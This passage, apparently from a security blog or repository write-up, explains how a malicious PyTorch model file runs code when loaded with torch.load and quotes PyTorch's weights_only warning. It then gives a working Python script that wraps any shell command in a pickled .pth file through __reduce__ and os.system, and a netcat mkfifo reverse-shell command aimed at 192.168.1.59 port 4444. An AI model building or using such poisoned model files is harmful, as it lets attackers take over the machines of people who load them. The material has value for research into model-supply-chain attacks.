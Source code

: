 ![](./assets/images/victim.png)

When the malicious model is loaded, it executes the embedded command, echoing "this is a malicious model!" as shown in the screenshot. Interestingly, a `FutureWarning` is printed before the command execution, informing the user that in a future PyTorch release, the default value of `weights_only` will change to `True`. This change will restrict what can be loaded during deserialization, making this type of attack ineffective.

    FutureWarning: You are using torch.load with weights_only=False (the current default value), which uses the default pickle module implicitly. 
    It is possible to construct malicious pickle data which will execute arbitrary code during unpickling (See https://github.com/pytorch/pytorch/blob/main/SECURITY.md#untrusted-models for more details). 
    In a future release, the default value for weights_only will be flipped to True. This limits the functions that could be executed during unpickling. 
    Arbitrary objects will no longer be allowed to be loaded via this mode unless they are explicitly allowlisted by the user via torch.serialization.add_safe_globals. 
    We recommend you start setting weights_only=True for any use case where you don't have full control of the loaded file. 
    Please open an issue on GitHub for any issues related to this experimental feature.

### Adding spice to Malcraft
Ok, we printed a message as a PoC but what else can we do? Literally everything. We could donwload a malware on the endpoint or get a reverse shell.

```python
import torch
import os
import sys

class Malcraft:
    def __init__(self, cmd):
        self.cmd = cmd 
    def __reduce__(self):
        return os.system, (self.cmd, )

if len(sys.argv) < 2:
    print(f'Usage: {sys.argv[0]} {{PAYLOAD}}')
    sys.exit(0)

mal = Malcraft(sys.argv[1])
with open('malcraft.pth', 'wb') as f:
    torch.save(mal, f)
```

In this snippet, I added a new feature: the possibility to customize the malicious model from CLI.

```sh
python3 malicious_crafter.py 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.59 4444 >/tmp/f'
```

